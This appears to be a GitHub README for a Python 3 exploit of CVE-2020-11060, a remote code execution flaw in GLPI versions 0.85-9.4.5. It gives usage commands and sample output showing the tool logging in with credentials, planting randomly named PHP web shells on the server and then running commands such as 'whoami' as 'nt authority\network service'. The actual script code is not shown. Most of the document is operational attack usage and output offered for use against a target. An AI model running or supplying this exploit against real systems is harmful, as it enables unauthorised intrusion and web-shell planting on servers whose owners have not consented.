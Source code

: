 # CVE-2020-11060

This script is a Python 3.x based exploit for CVE-2020-11060 in GLPI versions 0.85-9.4.5.

Original implementation: [0xdreadnaught](https://github.com/0xdreadnaught)

Python3 refactoring: [n3rada](https://github.com/n3rada)

The original [PoC](https://www.exploit-db.com/exploits/49992) in ExploitDB is now deprecated since it used Python 2.x. The new version has been submitted, and a link will be added here if/when it's accepted.
The original vulnerability research used to build these PoCs conducted by [AlmondOffSec](https://github.com/AlmondOffSec), and can be found [here](https://offsec.almond.consulting/playing-with-gzip-rce-in-glpi.html).


## Usage

```python
python3 CVE-2020-11060.py --url 'http://<target URL>' --user <'user'> --password <'password'> --platform <win/nix> --offset <#>
```

## Example Output

```text
python3 CVE-2020-11060.py --url 'http://glpi.vul.ne' --user 'glpi_adm' --password 'Amvfd6565/432' --platform 'win' --offset 312

[+] GLPI Browser targeting 'http://glpi.vul.ne' ('windows') with following credentials: 'glpi_adm':'Amvfd6565/432'.
[+] Target is up and responding.
[+] User 'glpi_adm' is logged in.
------------------------- trial number 1 -------------------------
[*] Wiping networks...
        Deleting network id: 2413
[+] Network created
[+] Modifying network
        New ESSID: RCEe
[+] Current shellname: bQznfdTr.php
[*] Dumping the database remotely at: C:\xampp\htdocs\sound\bQznfdTr.php
[+] File 'dumped', accessible at: http://glpi.vul.ne/sound/bQznfdTr.php
[+] Shell size: 265
------------------------- trial number 2 -------------------------
[*] Wiping networks...
        Deleting network id: 2414
[+] Network created
[+] Modifying network
        New ESSID: RCEee
[+] Current shellname: HdqrmKtR.php
[*] Dumping the database remotely at: C:\xampp\htdocs\sound\HdqrmKtR.php
[+] File 'dumped', accessible at: http://glpi.vul.ne/sound/HdqrmKtR.php
[+] Shell size: 13882
------------------------- trial number 3 -------------------------
[*] Wiping networks...
        Deleting network id: 2415
[+] Network created
[+] Modifying network
        New ESSID: RCEeee
[+] Current shellname: dwmfIJgN.php
[*] Dumping the database remotely at: C:\xampp\htdocs\sound\dwmfIJgN.php
[+] File 'dumped', accessible at: http://glpi.vul.ne/sound/dwmfIJgN.php
[+] Shell size: 13885
------------------------- trial number 4 -------------------------
[*] Wiping networks...
        Deleting network id: 2416
[+] Network created
[+] Modifying network
        New ESSID: RCEeeee
[+] Current shellname: KmGsYHBw.php
[*] Dumping the database remotely at: C:\xampp\htdocs\sound\KmGsYHBw.php
[+] File 'dumped', accessible at: http://glpi.vul.ne/sound/KmGsYHBw.php
[+] Shell size: 8369
------------------------------------------------------------------
[+] RCE found after 4 trials!
[+] You can execute command remotely as: nt authority\network service@WIN03
[+] Run this tool again with the desired command to inject:
        python3 CVE-2020-11060.py --url 'http://glpi.vul.ne/sound/KmGsYHBw.php' --command 'desired_command_here'
```

After that, you can execute a command freely like:
```python
python3 CVE-2020-11060.py --url 'http://glpi.vul.ne/sound/KmGsYHBw.php' --command 'whoami'
```

And it will return:
```text
[*] Response received from 'http://glpi.vul.ne/sound/KmGsYHBw.php':

nt authority\network service
```
